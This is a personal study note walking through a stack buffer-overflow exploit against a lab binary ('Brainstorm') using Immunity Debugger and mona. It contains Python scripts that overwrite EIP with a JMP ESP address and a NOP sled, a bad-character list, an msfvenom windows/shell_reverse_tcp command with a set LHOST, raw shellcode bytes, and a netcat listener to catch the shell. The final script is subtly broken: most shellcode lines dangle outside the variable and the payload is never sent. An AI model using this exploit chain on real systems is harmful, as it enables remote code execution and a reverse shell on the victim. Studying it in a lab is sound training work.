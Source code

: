 Need to come back and expand on this

https://github.com/milesrack/bufferoverflowprep?tab=readme-ov-file


- `ltrace` : library call tracer
- `strings` : can see string that are visible in a binary

# gdb

# Brainstorm walkthrough

Generate a reference pattern with a specified length to fuzz with.
`msf-pattern_create -l 50000`

Grab the number from the EIP register inside immunity debugger. In this case `31704330` and query for the offset number.
1. `msf-pattern_offset -l 5000 -q 31704330`
2. `[*] Exact match of offset 2012`
This means that the 2013 byte that we send will be into the return pointer "EIP"

Python script to automate sending data to the program. Can verify that the B's are showing up in the EIP register.
```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"B" * 4

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```


Need to check for "badchars". Once you send to Immunity debugger then right-click on the ESP and click follow in dump. Bottom left pane then check if there are any missing or blurred characters.
```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + badchars + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

In bottom command line of immunity debugger run `!mona modules`. This will pop up a windows to check for security measures. Can also run `!mona find -s "\xff\xe4" -m essfunc.dll` to check for a jump esp.

![](../Assets/images/immunity-follow-button.png)
Search for the "JMP ESP". Click on it and hit *F2* to set a breakpoint so that when you run the script below on the app it will break at that point.

```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"\xdf\x14\x50\x62"
# "jump address written backwards to replace the B's"
payload = b""

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

Generate payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.4.42 LPORT=7777 -b "\x00" -f c
```

Add payload to script
```python

import socket
import sys

username = b"blah"
# added padding after return
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
# add payload from venom
payload = b"\xdb\xce\xd9\x74\x24\xf4\x5a\xbd\x19\x15\xae\x4c\x29\xc9"
b"\xb1\x52\x31\x6a\x17\x83\xea\xfc\x03\x73\x06\x4c\xb9\x7f"
b"\xc0\x12\x42\x7f\x11\x73\xca\x9a\x20\xb3\xa8\xef\x13\x03"
b"\xba\xbd\x9f\xe8\xee\x55\x2b\x9c\x26\x5a\x9c\x2b\x11\x55"
b"\x1d\x07\x61\xf4\x9d\x5a\xb6\xd6\x9c\x94\xcb\x17\xd8\xc9"
b"\x26\x45\xb1\x86\x95\x79\xb6\xd3\x25\xf2\x84\xf2\x2d\xe7"
b"\x5d\xf4\x1c\xb6\xd6\xaf\xbe\x39\x3a\xc4\xf6\x21\x5f\xe1"
b"\x41\xda\xab\x9d\x53\x0a\xe2\x5e\xff\x73\xca\xac\x01\xb4"
b"\xed\x4e\x74\xcc\x0d\xf2\x8f\x0b\x6f\x28\x05\x8f\xd7\xbb"
b"\xbd\x6b\xe9\x68\x5b\xf8\xe5\xc5\x2f\xa6\xe9\xd8\xfc\xdd"
b"\x16\x50\x03\x31\x9f\x22\x20\x95\xfb\xf1\x49\x8c\xa1\x54"
b"\x75\xce\x09\x08\xd3\x85\xa4\x5d\x6e\xc4\xa0\x92\x43\xf6"
b"\x30\xbd\xd4\x85\x02\x62\x4f\x01\x2f\xeb\x49\xd6\x50\xc6"
b"\x2e\x48\xaf\xe9\x4e\x41\x74\xbd\x1e\xf9\x5d\xbe\xf4\xf9"
b"\x62\x6b\x5a\xa9\xcc\xc4\x1b\x19\xad\xb4\xf3\x73\x22\xea"
b"\xe4\x7c\xe8\x83\x8f\x87\x7b\x6c\xe7\x83\x51\x04\xfa\x8b"
b"\xbb\xb5\x73\x6d\xa9\x25\xd2\x26\x46\xdf\x7f\xbc\xf7\x20"
b"\xaa\xb9\x38\xaa\x59\x3e\xf6\x5b\x17\x2c\x6f\xac\x62\x0e"
b"\x26\xb3\x58\x26\xa4\x26\x07\xb6\xa3\x5a\x90\xe1\xe4\xad"
b"\xe9\x67\x19\x97\x43\x95\xe0\x41\xab\x1d\x3f\xb2\x32\x9c"
b"\xb2\x8e\x10\x8e\x0a\x0e\x1d\xfa\xc2\x59\xcb\x54\xa5\x33"
b"\xbd\x0e\x7f\xef\x17\xc6\x06\xc3\xa7\x90\x06\x0e\x5e\x7c"
b"\xb6\xe7\x27\x83\x77\x60\xa0\xfc\x65\x10\x4f\xd7\x2d\x20"
b"\x1a\x75\x07\xa9\xc3\xec\x15\xb4\xf3\xdb\x5a\xc1\x77\xe9"
b"\x22\x36\x67\x98\x27\x72\x2f\x71\x5a\xeb\xda\x75\xc9\x0c"
b"\xcf""

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

run netcat listener and then run the shell should give the connection.
`nc -lnvp 7777`

